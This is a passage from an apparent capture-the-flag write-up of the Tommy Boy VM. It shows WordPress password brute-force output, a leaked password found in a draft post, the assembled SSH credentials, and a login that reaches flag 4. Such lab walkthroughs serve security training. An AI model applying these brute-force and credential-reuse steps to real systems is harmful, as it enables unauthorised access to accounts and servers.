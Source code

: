 
  Brute Forcing 'tom' Time: 00:00:01 <                            > (52 / 22683)  0.22%  ETA: 00:08:37
  +----+-------+------+----------+
  | Id | Login | Name | Password |
  +----+-------+------+----------+
  |    | tom   |      | tomtom1  |
  +----+-------+------+----------+

[+] Finished: Tue Sep 20 16:38:20 2016
[+] Requests Done: 95
[+] Memory used: 16.016 MB
[+] Elapsed time: 00:00:03
root@kali:~/evidence/tommyboy1.0# -
{% endhighlight %}

Off to login to the WordPress site and look around.  Sadly it was quite secured (no easy shellz for me).  But I did find this GEM of a post in the drafts.

{% highlight bash %}
Ok so Nick always yells at me for forgetting the second part of my "ess ess eight (ache? H?) password so I'm writing it here:

1938!!

Nick, if you're reading this, I DON'T CARE IF I"M USING THIS THING AS A PASSWORD VAULT. YOU TOOK AWAY MY STICKIES SO I"LL PUT MY PASSWORDS ANY DANG PLACE I WANT.
{% endhighlight %}

Hahahha `ess ess eight`, quality.  So now we have his numbers `1938` which makes his credentials for ssh `bigtommysenior:fatguyinalittlecoat1938` and of course I get trolled, the '!!' is part of the password.

## ess ess eight access

{% highlight bash %}
root@kali:~/evidence/tommyboy1.0# ssh bigtommysenior@192.168.244.160
The authenticity of host '192.168.244.160 (192.168.244.160)' can't be established.
ECDSA key fingerprint is SHA256:bI4/w4tR6j1XRyuLkIs5icsyLJM0Kfw9m4iPFpXX0NI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.244.160' (ECDSA) to the list of known hosts.
bigtommysenior@192.168.244.160's password:
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

183 packages can be updated.
69 updates are security updates.


Last login: Thu Jul 14 13:45:57 2016
bigtommysenior@CallahanAutoSrv01:~$ ls -al
total 40
drwxr-x--- 4 bigtommysenior bigtommysenior 4096 Jul  8 08:57 .
drwxr-xr-x 5 root           root           4096 Jul  7 00:17 ..
-rw------- 1 bigtommysenior bigtommysenior    0 Jul 21 17:47 .bash_history
-rw-r--r-- 1 bigtommysenior bigtommysenior  220 Jul  7 00:12 .bash_logout
-rw-r--r-- 1 bigtommysenior bigtommysenior 3771 Jul  7 00:12 .bashrc
drwx------ 2 bigtommysenior bigtommysenior 4096 Jul  7 00:16 .cache
-rw-r--r-- 1 bigtommysenior bigtommysenior  307 Jul  7 14:18 callahanbak.bak
-rw-rw-r-- 1 bigtommysenior bigtommysenior  237 Jul  7 15:27 el-flag-numero-quatro.txt
-rw-rw-r-- 1 bigtommysenior bigtommysenior  630 Jul  7 17:59 LOOT.ZIP
drwxrwxr-x 2 bigtommysenior bigtommysenior 4096 Jul  7 13:50 .nano
-rw-r--r-- 1 bigtommysenior bigtommysenior  675 Jul  7 00:12 .profile
-rw-r--r-- 1 bigtommysenior bigtommysenior    0 Jul  7 00:17 .sudo_as_admin_successful
bigtommysenior@CallahanAutoSrv01:~$ cat el-flag-numero-quatro.txt
YAY!  Flag 4 out of 5!!!! And you should now be able to restore the Callhan Web server to normal